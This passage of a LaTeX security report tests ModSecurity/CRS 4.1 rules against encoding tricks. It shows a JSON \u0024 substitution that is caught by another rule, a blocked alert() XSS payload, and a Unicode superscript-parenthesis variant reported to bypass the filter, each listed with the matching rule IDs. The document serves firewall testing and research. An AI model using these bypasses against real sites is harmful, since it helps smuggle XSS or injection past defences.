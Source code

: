 \subsubsection{Unicode encoding in JSON}
\label{sec:unicodeinjsontest}
The ModSecurity firewall detects and blocks requests containing \verb|${| followed by a closing \verb|}| after an arbitrary number of characters in between.
Tests have shown that using Unicode encoding in JSON and substituting the \verb|$| in a JSON request with \verb|\u0024| evades the previously mentioned detection, but triggers another firewall rule: \\
\verb|Possible Unicode character bypass detected|:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=unicode tests \$\{`alert`\}, label={lst:jsonunicodetests}]
<payload>${`alert`}</payload>
<message>"Remote Command Execution: Unix Shell Expression Found"</message>
<file>"/rules/REQUEST-932-APPLICATION-ATTACK-RCE.conf"</file>
<fileDetails>[line "291"] [id "932130"]<fileDetails>
<MatchedData>"${`alert`}"</MatchedData>

<payload>\u0024{alert`}</payload>
<message>"Possible Unicode character bypass detected"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1263"] [id "920540"]<fileDetails>
<MatchedData>"x5cu0024"</MatchedData>
\end{lstlisting}

\subsubsection{Unicode Normalization}
\label{sec:uninormsingleiter}
The following payload using the function \verb|alert()| is being blocked by the ModSecurity Firewall using CRS 4.1:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=alert("normalizeMe") blocked, label=lst:alertnormalizemeblocked]
<payload>alert("normalizeMe")</payload>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
<message>"Javascript method detected"</message>
\end{lstlisting}

If the opening \verb|(| is substituted with the "Superscript Left Parenthesis" (U+207D), the payload bypasses the filter:

\begin{lstlisting}[style=basicStyle, caption=alert('normalizeMe') bypass, label=lst:alertnormalizemebypass]
alert\u{207D}'normalizeMe')
\end{lstlisting}

